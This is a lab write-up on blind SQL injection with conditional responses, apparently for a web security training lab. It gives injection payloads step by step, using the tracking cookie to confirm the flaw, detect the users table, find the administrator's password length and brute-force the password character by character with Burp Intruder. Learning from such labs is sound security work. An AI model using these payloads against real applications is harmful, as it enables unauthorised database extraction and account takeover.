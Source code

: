 # Blind SQL injection with conditional responses
- application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
- When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using a SQL query like this
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
- This query is vulnerable to SQL injection, but the results from the query are not returned to the user.
- the application does behave differently depending on whether the query returns any data. If it returns data (because a recognized TrackingId was submitted), then a "Welcome back" message is displayed within the page
- This behavior is enough to be able to exploit the blind SQL injection vulnerability and retrieve information by triggering different responses conditionally
- to see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```
- The first of these values will cause the query to return results, because the injected AND '1'='1 condition is true, and so the "Welcome back" message will be displayed
-  the second value will cause the query to not return any results, because the injected condition is false, and so the "Welcome back" message will not be displayed.
# Lab
- blind SQL injection vulnerability
- The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows
- database contains a different table called users, with columns called username and password
# Goal
- enumrate the password of the administrator
- log in as the administrator user
# Solving the lab
- we open the cookie editor and we see 2 cookies one is session cookie and one is trackinf cookie the lab says the tracking cookie is vulnurable
- to determine which is vulnurable we need to fuzz every parameter that talks to the backend and see the responses
- when we open the lab we dont see a welcome message because its the first time using the cookie
- when we click ony any button we see the welcome back message
- now open burp to confirm that this is vulnurable, intercept request and send request to repeater
- to test for bling based SQLI is to force 2 use cases and see how the application response one false and one true
  - if two responses are different then its expoitable
## First confirm parameter is vulnurable to blind SQLI
- the Query we will assume it will look like this
```
SELECT tracking-id FROM tracking-table WHERE tracking-id = '73otf20UOtx4AXLk' 
```
- If this tracking id exists -> query returns value -> Welcome back message
- If the tracking id doesn't exist -> query returns nothing -> no Welcome back message
- select tracking-id from tracking-table where trackingId = '73otf20UOtx4AXLk' and 1=1--'
- we comment to not get syntax error
- we send the payload and url encode it 
-> TRUE -> Welcome back

- select tracking-id from tracking-table where trackingId = '73otf20UOtx4AXLk' and 1=0--'
-> FALSE -> no Welcome back
- since we dont get a welcome back message when query is false so its vulnurable to blind SQLI
## Second Confirm DB has user table 
- we build query like this
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select 'x' from users LIMIT 1)='x'--'
```
- this will check if user table exists and select x value and copare it with x if user table exist we will get a welcome output
- and we get a welcome output
## Third Confirm user administartor exists
- we build quiry like this
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator')='administrator'--'
```
- we find a welcome output so user administartor exists
## Enumerate the password of the administrator user
- we first need to determine its length
- we can do this by this query and change the value until we got now welcome in the output
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>19)='administrator'--'
```
- at 19 we got welcome after that we got no ouput
- now to the actual password we will use this query
- we use burp intruder
- we first put payload to iterate or brute force using burp
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,1,1) from users where username='administrator')='a'--'
```
- we use cluster bomb on burp and do the attack the position to do the attack in are the charachters we want to check and the first argument in password substring

